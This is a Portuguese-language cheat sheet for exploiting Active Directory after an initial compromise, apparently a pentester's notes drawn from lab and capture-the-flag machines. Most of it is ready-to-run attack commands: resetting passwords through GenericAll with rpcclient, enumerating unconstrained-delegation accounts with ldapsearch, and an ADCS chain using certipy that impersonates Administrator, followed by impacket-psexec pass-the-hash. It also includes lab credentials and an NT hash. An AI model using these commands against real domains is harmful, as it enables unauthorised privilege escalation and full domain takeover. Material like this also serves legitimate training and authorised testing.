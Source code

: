 Explorando Active Directory
========================

Depois de comprometer alguma credencial/máquina de domínio temos a oportunidade de algum tipo de exploração, sendo elas:

- [ ] [**Abuso de DACLs**](#abusando%20dacls)
- [ ] [**Unconstrained delegation**](#unconstrained%20delegation)
- [ ] [**ADCS**](#adcs)


## Abusando DACLs

Esse tipo de permissionamento pode ser encontrada com a ferramenta do [bloodhound que está documentada aqui.](../../Tools/Bloodhound.md) .

### GenericAll

Com o genericAll podemos alterar a senha do usuário sem sequer saber a senha anterior. Para isso podemos utilizar serviços diferentes. Temos como opção:

#### RPC

```
setuserinfo2 hacker 24 Password@1
```
ou
```
setuserinfo hacker 23 P@ssword!
```

#### SMB



## Unconstrained delegation

```
ldapsearch -LLL -x -H ldap://pdc01.lab.ropnop.com -D "thoffman@lab.ropnop.com" -W -b "dc=lab,dc=ropnop,dc=com" "(&(&(objectCategory=person)(objectClass=user)) userAccountControl:1.2.840.113556.1.4.803:=524288))"
```

```
ldapsearch -LLL -x -H ldap://pdc01.lab.ropnop.com -D "thoffman@lab.ropnop.com" -W -b "dc=lab,dc=ropnop,dc=com" "(&(objectCategory=computer)(objectClass=computer) userAccountControl:1.2.840.113556.1.4.803:=524288))"
```


## ADCS


```
netexec ldap 10.129.204.177 -u grace -p Inlanefreight01! -M adcs
```
    
```
certipy find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -stdout -vulnerable
```
    
```
certipy req -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -ca sequel-DC-CA -template UserAuthentication -upn 'Administrator@sequel.htb'
```
    
```
certipy auth -pfx administrator.pfx
```
    
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee Administrator@sequel.htb
```
